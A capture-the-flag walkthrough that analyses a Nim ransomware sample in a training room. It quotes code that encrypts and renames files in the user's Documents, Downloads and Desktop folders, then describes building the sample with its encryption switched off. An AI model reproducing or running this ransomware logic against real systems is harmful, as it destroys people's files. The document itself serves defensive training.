 ```nim
      ectx.encrypt(plaintext, encrypted)
      ectx.clear()

      if not isDebug:
        let encodedCrypted = encode(encrypted)
        let finalFile = file & ".boogey"
        moveFile(file, finalFile)
        writeFile(finalFile, encodedCrypted)

let debugEnabled = isDebugEnabled()
change_wp(debugEnabled)
var path = getHomeDir() & "Documents"
recursive(path, debugEnabled)
path = getHomeDir() & "Downloads"
recursive(path, debugEnabled)
path = getHomeDir() & "Desktop"
recursive(path, debugEnabled)

```

It is a Nim script, here we can go and read the extension that gets added at the end of ecrypted files: --> REDACTED

Back into the folder, open the README file:
```bash
cat readme.txt
```

We get this message 
"*Hey! Quick heads-up. For testing purposes, you can skip the encryption step just by REDACTED .
The malware would still run, but it won't have any damaging effects to your machine.*
*Keep on hacking!*"

Let's change the value
```bash
REDACTED
```

Finally we can get the last flag by compiling the malware with the script in the directory:
```bash
./build.sh
```

Here it is: --> REDACTED

<br>
<br>

Congratulations, you have completed the second room of the 3 million special series, hope you had fun practicing and following along.

See you in the next challenge 😃
